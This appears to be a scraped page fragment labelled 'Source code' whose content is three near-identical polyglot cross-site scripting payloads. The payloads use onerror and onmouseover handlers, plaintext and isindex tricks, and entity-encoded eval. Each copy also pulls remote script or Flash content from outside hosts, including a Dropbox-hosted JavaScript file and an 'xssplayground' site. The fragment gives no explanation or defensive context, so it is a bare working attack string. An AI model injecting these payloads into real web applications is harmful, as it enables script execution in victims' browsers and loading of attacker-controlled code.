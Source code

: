 '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://bryanhallsawakening.files.wordpress.com/2013/09/anonymousbigbrotherclone.jpg"/ onmousover=alert(1)><script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>

'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://xssplayground.net23.net/xssimagefile2.svg"/onmousover=alert(1)><script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>



">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>"><script>alert(document.domain)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://xssplayground.net23.net/xssimagefile2.svg"/onmousover=alert(1)><embed/&Tab; src='https://xssplayground.net23.net/xss.swf'>

